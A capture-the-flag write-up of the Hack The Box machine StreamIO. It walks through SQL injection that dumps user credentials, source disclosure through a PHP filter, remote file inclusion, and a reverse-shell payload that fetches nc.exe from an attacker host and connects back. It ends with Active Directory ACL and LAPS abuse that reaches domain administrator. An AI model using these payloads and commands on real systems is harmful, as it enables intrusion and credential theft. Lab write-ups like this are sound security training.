## About StreamIO

**Name:** StreamIO

**Machine:** https://app.hackthebox.com/machines/StreamIO

**Difficulty:** Medium

**OS:** Windows

**Target IP:** 10.129.60.150

---
## Recon

I'll start with a standard nmap scan:

```
nmap -sC -sV -oA StreamIO -v 10.129.60.150
```

The combination of Kerberos (88), LDAP (389/3268), and SMB (445) confirmed this was a Domain Controller. 

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-11 16:36:10Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb, Site: Default-First-Site-Name)
443/tcp  open  ssl/https?
|_ssl-date: 2026-08-11T16:38:34+00:00; +6h59m59s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
| ssl-cert: Subject: commonName=streamIO/countryName=EU
| Subject Alternative Name: DNS:streamIO.htb, DNS:watch.streamIO.htb
| Issuer: commonName=streamIO/countryName=EU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-02-22T07:03:28
| Not valid after:  2022-03-24T07:03:28
| MD5:     b99a 2c8d a0b8 b10a eefa be20 4abd ecaf
| SHA-1:   6c6a 3f5c 7536 61d5 2da6 0e66 75c0 56ce 56e4 656d
|_SHA-256: 1efc 48cc 0bd9 757f c585 d1fb 7e52 5009 ed0a a3e9 9acc 1a97 0b26 8418 6801 bf09
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: streamIO.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Ports 80 and 443 also being open means there's a web application layer sitting on top of the AD services. The certificate on 443 also leaks a second hostname, `watch.streamIO.htb`, worth checking later.

I'll add the domain and hostname to `/etc/hosts`.



A quick check on SMB shows null and guest sessions are both disabled, so any further SMB work needs valid creds first.



## Web Enumeration

Port 80 served a default IIS landing page, and directory brute-forcing against it turned up nothing of value.



Port 443, on the other hand, hosted a functional online movie streaming site at `https://streamio.htb/`.


There's a login page. I try brute-forcing it with a username/password list, but get no result.



Directory brute-forcing against the main site finds a few paths, but we're denied access to all of them at this stage.



With the main site fully enumerated and nothing else obviously exploitable, I'll fuzz for virtual hosts:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://streamIO.htb:443/ -H 'Host: FUZZ.streamIO.htb'
```

This confirms `watch.streamIO.htb` as a live vhost - this was actually already in the nmap certificate output, I just missed on first pass. I'll add it to `/etc/hosts` and browse to it.


Directory fuzzing against this new vhost turns up a `search.php` endpoint:

```
ffuf -u https://watch.streamio.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -e .php,.txt.asp
```





Clicking "watch" on any movie triggers a prompt.



## SQL Injection

As a quick check, I try a simple SQL injection payload in the search box. This redirects to `/blocked.php`, showing "Malicious Activity Detected!!" - actually a good sign, since it confirms the input is reaching a query somewhere.



Going back to `search.php`, normal searches still work without being actually blocked. I try a UNION-based injection, incrementing the column count to find out number of columns:

```
cn' UNION select 1
```

After a few attempts, this one works:

```
cn' UNION select 1,2,3,4,5,6-- -
```

Columns 2 and 3 come back reflected on the page, meaning the original query has 6 columns and only those two are actually displayed.


To confirm real data can be pulled, I swapped the second column for `@@version` (a query that returns the SQL Server version string):

```
cn' UNION select 1,@@version,3,4,5,6-- -
```



With UNION-based injection confirmed, I'll enumerate the database. Starting with a list of databases:

```
cn' UNION select 1,name,3,4,5,6 from master..sysdatabases;-- -
```



`master`, `model`, `msdb`, and `tempdb` are default MSSQL system databases, not of interest. Two non-default ones stand out: `STREAMIO` and `streamio_backup`.

I confirm the application's own database context with `DB_NAME()`, which returns `STREAMIO`:

```
cn' UNION select 1,(select DB_NAME()),3,4,5,6-- -
```


I list the tables inside both databases:

```
cn' UNION select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U'-- -
cn' UNION select 1,name,id,4,5,6 from streamio_backup..sysobjects WHERE xtype = 'U';-- -
```

`STREAMIO` returns two tables, but `streamio_backup` comes back empty. Likely I don't have enough privileges to access `stream_backup`.



I then listed the column names of the `users` table:

```
cn' UNION select 1,c.name,2,4,5,6 from streamio..syscolumns c inner join streamio..sysobjects o on c.id=o.id where o.name='users'-- -
```



Finally, I dump the actual `username:password` pairs from the table:

```
cn' UNION select 1,concat(username,':',password),3,4,5,6 from users;-- -
```

.png)

## Foothold

I save this to `creds.txt` and use `awk` to split it into separate hash and username lists for cracking:

```
awk -F':' '{gsub(/ /,"",$2); print $2}' creds.txt > hashes.txt
awk -F' :' '{print $1}' creds.txt > usernames.txt
```

Then I crack the MD5 hashes with john.



Next, I use `kerbrute` to check which of these usernames are actual valid domain accounts. A web-app user list and an AD user list aren't necessarily the same thing:

```
kerbrute userenum -d streamIO.htb --dc 10.129.60.150 usernames.txt -o valid_ad_users
```

Only one hit came back: `yoshihide`.



I try brute-forcing `yoshihide` with the passwords cracked earlier, but nothing lands.



Going back to the web login page, I retry the brute-force there, this time targeting `yoshihide` specifically with a password list.



This pays off! `yoshihide:66boysandgirls..` is valid. Logging in reveals a "LOGOUT" link at the top, confirming an authenticated session.


I quickly navigate to `/admin`, spotted earlier during directory brute-forcing.



Clicking "User Management" leads to `https://streamio.htb/admin/?user=`, an interesting parameter worth testing.



Basic LFI payloads against `user` paramter don't work, so I fuzz for other GET parameters the admin panel might respond to:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u https://streamio.htb/admin/?FUZZ= -b "PHPSESSID=h2ht7h9n1ov713bpqa28a5o6
vf" -fs 1678 
```

This turns up several parameters:



Accessing `index.php` through the `debug` parameter returns base64-encoded output:

```
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=index.php
```



Decoding the returned base64 revealed hardcoded database credentials inside `index.php`. I didn't have an immediate use for them yet, but noted them down for later.



Next, I fuzz for additional PHP files reachable through the same `debug` parameter, and find `master.php`:

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u https://streamio.htb/admin/?debug=FUZZ.php -b "PHPSESSID=h2ht7h9n1ov713bpqa28a5o6vf" -fs 1712
```



Reading it the same way through the filter wrapper:

```
https://streamio.htb/admin/?debug=php://filter/read=convert.base64-encode/resource=master.php
```

Decoding the output shows the script takes a POST parameter called `include`, reads whatever file path or URL is supplied, and passes the raw content straight into `eval()`. This is a Remote File Inclusion (RFI) bug - since the content is executed rather than just displayed, I can host a PHP payload and have it run directly on the server.

```
<?php                                           
} # while end                                                                     
?>                                                                                
<br><hr><br>                 
<form method="POST">                                                              
<input name="include" hidden>                   
</form>                                                                           
<?php
if(isset($_POST['include']))                                                      
{                                                                                 
if($_POST['include'] !== "index.php" )                                            
eval(file_get_contents($_POST['include']));               
else                                                                              
echo(" ---- ERROR ---- ");                                                        
}                                                            
?>base64: invalid input   
```

I'll use netcat to get a shell - transfer `nc.exe` to the target, then execute it to connect back to my listener. I create a file containing a reverse shell code:

```
system('powershell -c "wget http://<ATTACKER_IP>:8000/nc.exe -outfile C:\\Windows\\Temp\\nc.exe"'); system('C:\\Windows\\Temp\\nc.exe -e powershell <ATTACKER_IP> 443');
```

I capture a request to the `master.php` debug endpoint in Burp, send it to Repeater, change the method to `POST`, and set the `include` body parameter to this payload.



With a listener running, I send the request and catch a shell.



Manual enumeration on the box doesn't turn up much, but I still have the database credentials recovered from `index.php` earlier. I use them with `sqlcmd` to enumerate the MSSQL instance from the inside:

```
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q 'SELECT name FROM master.dbo.sysdatabases'
```



I can now access `streamio_backup`, so I list its tables:

```
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q 'USE streamio_backup'
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q 'SELECT table_name FROM streamio_backup.INFORMATION_SCHEMA.TABLES'
```



A `users` table is present, so I dump it:

```
sqlcmd -S localhost -U db_admin -P 'B1@hx31234567890' -Q 'USE streamio_backup; select * from users'
```

In return, I got a list of usernames and their hashes.

```
id          username                                           password                                          
----------- -------------------------------------------------- --------------------------------------------------
          1 nikk37                                             389d14cb8e4e9b94b137deb1caf0612a                  
          2 yoshihide                                          b779ba15cedfd22a023c4d8bcf5f2332                  
          3 James                                              c660060492d9edcaa8332d89c99c9239                  
          4 Theodore                                           925e5408ecb67aea449373d668b7359e                  
          5 Samantha                                           083ffae904143c4796e464dac33c1f7d                  
          6 Lauren                                             08344b85b329d7efd611b7a7743e8a09                  
          7 William                                            d62be0dc82071bccc1322d64ec5b6c51                  
          8 Sabrina                                            f87d3c0d6c8fd686aacc6627f1f493a5                  
```

`nikk37` caught my attention specifically because, unlike the others, this account is an actual domain user.



The hash format looks like a fast, unsalted algorithm, so instead of cracking locally I try CrackStation's rainbow tables - it cracks successfully.



The credentials work, and I get a shell as `nikk37` via `evil-winrm`, reading the user flag from there.



## Privilege Escalation

Enumerating SMB shares as `nikk37` only shows the default shares.



Next, I collect BloodHound data to map the domain from this new vantage point:

```
bloodhound-python -u nikk37 -p get_dem_girls2@yahoo.com -ns 10.129.60.150 -d streamio.htb -c all
zip -r streamio.zip *.json
```

Unfortunately, `nikk37` has no outbound object control and isn't a member of any interesting group.



Running `winPEAS` on the target reveals stored credentials in Firefox.



I clone [firepwd](https://github.com/lclevy/firepwd) and pull the profile's `key4.db` and `logins.json` from the target. With both files in tool's directory, I run:

```
python3 firepwd.py
```

This successfully decrypts four sets of stored credentials.



None of the recovered passwords match their associated usernames directly, so I cross-reference the usernames and passwords against each other instead. One valid combination comes out of it.



These credentials work for SMB, but not for WinRM.



Checking user `JDgodd` in BloodHound shows it holds `WriteOwner` rights over the `Core Staff` group.



`WriteOwner` lets us change the owner of an object. Since an object's owner can grant themselves further permissions on it regardless of the existing ACL, this is effectively a stepping stone to full control.

Next, I took ownership of this group:

```
bloodyad --host streamio.htb -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r set owner "Core Staff" "JDgodd"
```

As the new owner, I grant myself `GenericAll` over it:

```
bloodyad --host streamio.htb -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r add genericAll "Core Staff" "JDgodd"
```

With `GenericAll` in place, I add `JDgodd` directly into `Core Staff` and verify the change:

```
bloodyad --host streamio.htb -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r add groupMember "Core Staff" "JDgodd"
bloodyad --host streamio.htb -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r get object 'JDgodd' --attr memberOf
```



`Core Staff` itself holds `ReadLAPSPassword` rights over the domain controller. This lets me read the local admin password and on a DC, `Domain Admins` are also local admins, so this is effectively domain admin access.



Next, I retrieve the password:

```
# Using BloodyAD
bloodyad --host streamio.htb -d streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r get object 'DC$' --attr ms-Mcs-AdmPwd

# Using Netexec
nxc ldap streamio.htb -u JDgodd -p JDg0dd1s@d0p3cr3@t0r -M laps
```



With the local administrator password, I authenticate via `evil-winrm`. Interestingly, the root flag isn't in `administrator`'s own directory as expected.



After a bit more searching across the filesystem, the root flag turns up inside `Martin`'s directory instead.



---